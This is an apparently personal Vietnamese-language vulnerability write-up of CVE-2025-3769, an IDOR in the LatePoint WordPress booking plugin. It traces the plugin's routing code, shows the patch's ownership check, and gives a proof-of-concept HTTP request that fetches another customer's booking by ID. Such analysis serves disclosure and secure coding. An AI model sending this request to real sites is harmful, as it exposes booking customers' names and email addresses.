


<!--more-->

## CVE & Basic Info
Plugin **LatePoint – Calendar Booking Plugin for Appointments and Events** trên WordPress có **lỗ hổng Insecure Direct Object Reference (IDOR)** ở tất cả các phiên bản lên đến và bao gồm **5.1.92** thông qua tham số `view_booking_summary_in_lightbox`, do **thiếu kiểm tra hợp lệ trên khóa do người dùng điều khiển**.  
Lỗ hổng này cho phép **kẻ tấn công chưa xác thực** có thể truy xuất chi tiết các cuộc hẹn, bao gồm **tên khách hàng và địa chỉ email**.

* **CVE ID**: [CVE-2025-3769](https://www.cve.org/CVERecord?id=CVE-2025-3769)
* **Vulnerability Type**: Insecure Direct Object References (IDOR)
* **Affected Versions**: <= 5.1.92
* **Patched Versions**: 5.1.93
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress LatePoint Plugin](https://wordpress.org/plugins/latepoint/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **LatePoint**:  
    * `5.1.92` – **vulnerable**  
    * `5.1.93` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
Plugin đã đăng ký action hook:

```php {title="latepoint.php v5.1.92" data-open=true hl_lines=[]}
add_action( 'wp_ajax_nopriv_latepoint_route_call', array( $this, 'route_call' ) );
```

`wp_ajax_nopriv_` là hook dành cho người dùng chưa đăng nhập (kể cả Unauthenticated). Khi có request tới endpoint `/wp-admin/admin-ajax.php` với param `action=latepoint_route_call` thì callback `route_call` được gọi:

```php {title="latepoint.php v5.1.92" data-open=true hl_lines=[]}
public function route_call() {
    $route_name = OsRouterHelper::get_request_param( 'route_name', OsRouterHelper::build_route_name( 'dashboard', 'index' ) );
    OsRouterHelper::call_by_route_name( $route_name, OsRouterHelper::get_request_param( 'return_format', 'html' ) );
}
```

Hàm `route_call()` gọi đến `get_request_param()` với 2 tham số `'route_name'` và giá trị default `OsRouterHelper::build_route_name( 'dashboard', 'index' )` nếu param `route_name` không tồn tại trong request.

```php {title="route_helper.php v5.1.92" data-open=true hl_lines=[]}
public static function get_request_param($name, $default = false){
    // $name = 'route_name'
    // $default = OsRouterHelper::build_route_name( 'dashboard', 'index'
    if(isset($_GET[$name])){
      $param = sanitize_text_field(wp_unslash($_GET[$name]));
    }elseif(isset($_POST[$name])){
      $param = sanitize_text_field(wp_unslash($_POST[$name]));
    }else{
    	$param = $default;
    }
    return $param;
}
```

```php {title="route_helper.php v5.1.92" data-open=true hl_lines=[]}
public static function build_route_name($controller, $action){
    return $controller.'__'.$action;
}
```

Sau khi có giá trị của `$route_name`, hàm tiếp tục gọi `call_by_route_name`:

```php {title="route_helper.php v5.1.92" data-open=true hl_lines=[3]}
public static function call_by_route_name($route_name, $return_format = 'html'){
    OsDebugHelper::log_route($route_name, $return_format);
    $route_data = self::convert_route_name_to_controller_and_action($route_name);
    if(!empty($route_data)){
        $controller_obj = $route_data['controller'];
        $action = $route_data['action'];
        if($return_format) $controller_obj->set_return_format($return_format);
        // check if user is allowed to access this route
        if($controller_obj->can_current_user_access_action($action)){
            $controller_obj->route_name = $route_name;
            $controller_obj->$action();
        }else{
            if($controller_obj->get_return_format() == 'json'){
                $controller_obj->send_json( ['status' => LATEPOINT_STATUS_ERROR, 'message' => __('Not Authorized', 'latepoint')] );
            }else{
                echo '<div class="latepoint-not-authorized"><div class="not-authorized-message">'.esc_html__('Not Authorized', 'latepoint').'</div></div>';
            }
            exit();
        }
    }else{
        esc_html_e('Page Not Found', 'latepoint');
    }
}
```

Hàm `call_by_route_name()` sẽ ghi log route, lấy controller và action tương ứng với route đó gán cho `$route_data`

```php {title="route_helper.php v5.1.92" data-open=true hl_lines=[5,10]}
public static function convert_route_name_to_controller_and_action($route_name): array{
    list($controller_name, $action) = explode('__', $route_name);
    if(empty($controller_name) || empty($action)) return [];
    $controller_name = str_replace('_', '', ucwords($controller_name, '_'));
    $controller_class_name = 'Os'.$controller_name.'Controller';
    if(class_exists($controller_class_name)) {
        $controller_obj = new $controller_class_name();
        if(method_exists($controller_obj, $action)) {
            // check if action is valid
            return ['controller' => $controller_obj, 'action' => $action];
        }else{
            return [];
        }
    }else{
        return [];
    }
}
```

Hàm nhận `$route_name` dạng `'controller__action'`.

1. Tách chuỗi theo `__` ra `$controller_name` và `$action`.
2. Nếu rỗng → trả về `[]`.
3. Chuyển `$controller_name` sang PascalCase, bỏ `_`, thêm prefix `Os` và suffix `Controller` → tên class.
4. Kiểm tra class tồn tại → tạo object.
5. Kiểm tra method tồn tại trong object → trả về mảng `['controller' => object, 'action' => method]`.
6. Nếu class hoặc method không tồn tại → trả về mảng rỗng `[]`.

Hàm `call_by_route_name()` tiếp tục sẽ kiểm tra `$route_data` nếu không rỗng thì set format trả về, check quyền truy cập `can_current_user_access_action($action)`: Nếu user hiện tại có thể  truy cập action này thì gọi method action: `$controller_obj->$action()`

Mặc định, khi người dùng có cookie của `LatePoint` (trở thành customer) thì đáp ứng điều kiện này.


Để có được cookie này, ta cần phải order và sử dụng chức năng create account:


--- 

Khi thực hiện diff code, tôi thấy một số logic thuộc các hàm của class `OsCustomerCabinetController` đã được fix bằng cách kiểm tra quyền sở hữu trước khi trả dữ liệu:

```php
if ( $order->is_new_record() || ( $order->customer_id != OsAuthHelper::get_logged_in_customer_id() ) ) {
    $this->send_json( array(
        'status' => LATEPOINT_STATUS_ERROR,
        'message' => __('Not Allowed', 'latepoint')
    ) );
}
```



Khớp với phân tích của tôi ở trên, ví dụ: 

**Route hợp lệ**:

```
route_name=customer_cabinet__view_booking_summary_in_lightbox
```

sẽ được map thành 

```
OsCustomerCabinetController::view_booking_summary_in_lightbox()
``` 

`view_booking_summary_in_lightbox()` được gọi để trả về dữ liệu booking.

## Flow

flowchart TD
A["Unauthenticated Attacker"] 
--> B["Create Booking (no login required)"]

B --> C["Creates Customer account"]
C --> D["Customer cookie issued (logged-in as customer)"]

D --> E["Attacker sends request to admin-ajax.php?action=latepoint_route_call"]

E --> F["route_name=customer_cabinet__view_booking_summary_in_lightbox"]

F --> G["Router resolves to OsCustomerCabinetController"]

G --> H["can_current_user_access_action() → PASS"]

H --> I["view_booking_summary_in_lightbox() called"]

I --> J["Booking ID taken from request"]

J --> K["No ownership validation (<= 5.1.92)"]

K --> L["Sensitive booking data leaked (email, name, etc.)"]


## Proof of Concept (PoC)
1. Gửi request:

```http
POST /wp-admin/admin-ajax.php?t=1766721895425 HTTP/1.1
Host: localhost
Cookie: __stripe_mid=f13365af-449c-4412-b77c-7213da0dbe814d9925; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; latepoint_cart_86a9106ae65537651a8e456835b316ab=8ffe0e2c-9c69-48f8-94d9-18dd24022f90; latepoint_customer_logged_in_cookie

action=latepoint_route_call&route_name=customer_cabinet__view_booking_summary_in_lightbox&params=booking_id=other_booking_id&return_format=json
```
 
**Result**:



## Conclusion

Lỗ hổng CVE‑2025‑3769 xuất phát từ việc thiếu kiểm tra quyền sở hữu dữ liệu trong các action của OsCustomerCabinetController. Người dùng có session hợp lệ có thể truy cập booking của người khác. Bản vá 5.1.93 đã kiểm tra customer_id trước khi trả dữ liệu, ngăn chặn IDOR.

## Key Takeaways

* Authentication không đồng nghĩa với Authorization.
* Không nên tin tưởng dữ liệu client gửi lên (ID, route, params).
* Luôn kiểm tra ownership ở tầng business logic.
* Dynamic routing cần kiểm soát chặt quyền truy cập.
* IDOR xảy ra khi thiếu kiểm tra mối quan hệ user–object.

## References
[IDOR](https://book.hacktricks.wiki/en/pentesting-web/idor.html)

[WordPress LatePoint Plugin <= 5.1.92 is vulnerable to Insecure Direct Object References (IDOR)](https://patchstack.com/database/wordpress/plugin/latepoint/vulnerability/wordpress-latepoint-plugin-5-1-92-unauthenticated-insecure-direct-object-reference-vulnerability)  h